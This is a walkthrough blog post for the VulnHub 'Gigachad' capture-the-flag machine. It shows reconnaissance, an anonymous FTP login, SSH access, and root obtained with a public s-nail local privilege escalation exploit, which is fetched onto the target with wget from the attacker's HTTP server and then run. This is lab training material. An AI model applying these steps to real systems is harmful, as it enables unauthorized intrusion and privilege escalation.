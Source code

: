```yaml
---
title: "Gigachad CTF walkthrough"
description: "Gigachad CTF walkthrough"
layout: post
---
```


GIGACHAD
as always the VM can be found [here](https://www.vulnhub.com/entry/gigachad-1,657/)
nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ nmap -p- -sV 192.168.56.151
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 22:42 EDT
Nmap scan report for 192.168.56.151
Host is up (0.0092s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
{% endhighlight %}

{% highlight text %}
robots.txt
User-agent: *
Disallow: /kingchad.html
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ftp 192.168.56.151                                                      130 ⨯
Connected to 192.168.56.151.
220 (vsFTPd 3.0.3)
Name (192.168.56.151:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 1000     1000          297 Feb 07 17:33 chadinfo
226 Directory send OK.
ftp> get chadinfo
local: chadinfo remote: chadinfo
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for chadinfo (297 bytes).
226 Transfer complete.
297 bytes received in 0.00 secs (87.0465 kB/s)
ftp> 
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ cat chadinfo
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
{% endhighlight %}

A reverse image search of drippinchad.png shows that the place is called the maidens 
tower in turkey. 

logging in with chad:maidenstower
{% highlight terminal %}                                                             
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ssh chad@192.168.56.151
chad@192.168.56.151's password: 
Linux gigachad 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
 
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 31 22:15:12 2021 from 192.168.56.101
chad@gigachad:~$
{% endhighlight %}
SUID bins
{% highlight terminal %}
chad@gigachad:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
{% endhighlight %}
We use searchsploit look for exploits for the installed s-nail program: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs]
└─$ searchsploit s-nail                 
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalation        | multiple/local/47172.sh
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

Preparing the exploit: 
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
File Type: POSIX shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/ctfs/gigachad/47172.sh
{% endhighlight %}
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ dos2unix 47172.sh 
dos2unix: converting file 47172.sh to Unix format...
{% endhighlight %}
Getting the exploit to the victim machine: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.151 - - [01/Apr/2021 10:34:48] "GET /47172.sh HTTP/1.1" 200 -

chad@gigachad:~$ wget http://192.168.56.101:8000/47172.sh
chad@gigachad:~$ chmod +x 47172.sh 
chad@gigachad:~$ ./47172.sh 

[.] Race #833 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 Apr  1 09:40 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# ls
47172.sh  ftp  user.txt
# id
uid=0(root) gid=0(root) groups=0(root),1000(chad)
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
{% endhighlight %}

